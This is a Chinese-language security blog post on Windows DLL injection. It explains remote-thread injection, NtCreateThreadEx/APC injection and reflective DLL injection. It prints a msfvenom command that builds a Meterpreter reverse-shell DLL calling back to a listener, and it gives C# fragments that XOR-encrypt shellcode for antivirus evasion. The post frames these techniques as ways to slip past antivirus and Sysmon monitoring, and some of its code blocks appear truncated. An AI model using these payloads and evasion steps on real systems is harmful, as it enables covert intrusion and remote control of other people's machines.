





承诺是男人给女人的定心丸。吃了安心，虽然这定心丸的药性有待考证，但女人都希望吃了再说。
文章首发云众可信，博客备份。
什么是dll注入
在Windows操作系统中，运行的每一个进程都生活在自己的程序空间中（保护模式），每一个进程都认为自己拥有整个机器的控制权，每个进程都认为自己拥有计算机的整个内存空间，这些假象都是操作系统创造的（操作系统控制CPU使得CPU启用保护模式）。理论上而言，运行在操作系统上的每一个进程之间都是互不干扰的，即每个进程都会拥有独立的地址空间。比如说进程B修改了地址为0x4000000的数据，那么进程C的地址为0x4000000处的数据并未随着B的修改而发生改变，并且进程C可能并不拥有地址为0x4000000的内存(操作系统可能没有为进程C映射这块内存)。因此，如果某进程有一个缺陷覆盖了随机地址处的内存(这可能导致程序运行出现问题)，那么这个缺陷并不会影响到其他进程所使用的内存。
也正是由于进程的地址空间是独立的（保护模式），因此我们很难编写能够与其它进程通信或控制其它进程的应用程序。
所谓的dll注入即是让程序A强行加载程序B给定的a.dll，并执行程序B给定的a.dll里面的代码。注意，程序B所给定的a.dll原先并不会被程序A主动加载，但是当程序B通过某种手段让程序A“加载”a.dll后，程序A将会执行a.dll里的代码，此时，a.dll就进入了程序A的地址空间，而a.dll模块的程序逻辑由程序B的开发者设计，因此程序B的开发者可以对程序A为所欲为。因为执行命令需要借用某些合法进程，所以一般的进程注入都要绕过AV检测。
dll注入实现过程
)
即
1.附加到目标/远程进程
2.在目标/远程进程内分配内存
3.将DLL文件路径，或者DLL文件，复制到目标/远程进程的内存空间
4.控制进程运行DLL文件
主要用到的几个函数：
OpenProcess ：
1 | HANDLE OpenProcess( |
VirtualAllocEx：1
2
3
4
5
6
7LPVOID VirtualAllocEx(
HANDLE hProcess,
LPVOID lpAddress,
SIZE_T dwSize,
DWORD flAllocationType,
DWORD flProtect
);
WriteProcessMemory：
1 | BOOL WriteProcessMemory( |
CreateRemoteThread：
1 | HANDLE CreateRemoteThread( |
dll注入demo：
既然是dll注入，那么我们肯定需要一个dll，我们使用msf直接生成一个dll出来：
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=4444 -f dll -o inject.dll |
然后手写一个dll注入器：
1 |
|

在进程监控中，也可以清楚的看到进程被注入了dll。

这样我们就实现了一个简单的dll注入的例子。CreateRemoteThread()实现dll注入，是最基础的例子，我们再来看一下其他的dll注入的方法。
demo2:
我们这次使用一个比较小众的方法来进行dll注入，NtCreateThreadEx。
因为在上面的注入方式中，我们使用了CreateRemoteThread来进行dll注入，而这个方式在具有Sysmon的系统中会留下Event ID 8的痕迹。而我们使用通过APC实现Dll注入则可以绕过这种监控。
这里有三好学生师傅的demo
1 |
|
而且还有了C#版本，这里就不再赘述了。
反射型dll注入：
反射DLL注入可以将加密的DLL保存在磁盘（或者以其他形式如shellcode等），之后将其解密放在内存中。之后跟DLL注入一般，使用VirtualAlloc和WriteProcessMemory将DLL写入目标进程。因为没有使用LoadLibrary函数，要想实现DLL的加载运行，我们需要在DLL中添加一个导出函数，ReflectiveLoader，这个函数实现的功能就是加载自身。
反射DLL注入实现起来其实十分复杂，需要对PE加载十分了解。通过编写ReflectiveLoader找到DLL文件在内存中的地址，分配装载DLL的空间，并计算 DLL 中用于执行反射加载的导出的内存偏移量，然后通过偏移地址作为入口调用 CreateRemoteThread函数执行。
msf已经有了相应的模块：
1 | windows/manage/reflective_dll_inject |

cs中也可以使用bdllspawn来加载dll实现同样的效果。
我们也可以手动使用MemoryModule来实现
- 将要加载的PE文件读入内存
- 初始化MemoryModule句柄
- 装载内存
- 获得导出函数地址
- 执行导出函数
- 释放MemoryModule句柄
代码如下：
1 |
|

dll注入利用
反射型DLL注入免杀
这里使用c#来实现。
首先声明api：
1 | [DllImport("kernel32.dll")] |
然后可以使用下面的方式来实现dll注入：
1 | public static void ReflectiveDLLInject(int targetId, byte[] shellcode) |
然后将payload进行加密，再在主程序内还原即可。
1 | public static byte[] xor(byte[] input) |
然后在调用函数执行即可，不过DLL加密后的shellcode都会特别长，不适合命令行输入，命令行只支持8000+字符的输入，可以考虑分离免杀的方式来进行执行。
反射DLL与MSF联动
倾璇师傅提出的思路，膜拜。

进程中也看不到明显的dll注入

参考文章：
https://www.cnblogs.com/wf751620780/p/10730013.html
https://payloads.online/archivers/2020-01-02/1
https://rootrain.me/2020/02/29/%E4%BD%BF%E7%94%A8.NET%E5%AE%9E%E7%8E%B0DLL%E6%B3%A8%E5%85%A5%E6%8A%80%E6%9C%AF/
https://ired.team/offensive-security/code-injection-process-injection/reflective-dll-injection
https://ired.team/offensive-security/code-injection-process-injection/dll-injection
https://www.t00ls.net/viewthread.php?tid=51601&highlight=DLL%E6%B3%A8%E5%85%A5
https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87APC%E5%AE%9E%E7%8E%B0Dll%E6%B3%A8%E5%85%A5-%E7%BB%95%E8%BF%87Sysmon%E7%9B%91%E6%8E%A7/
https://github.com/stephenfewer/ReflectiveDLLInjection
https://www.cnblogs.com/uAreKongqi/p/6012353.html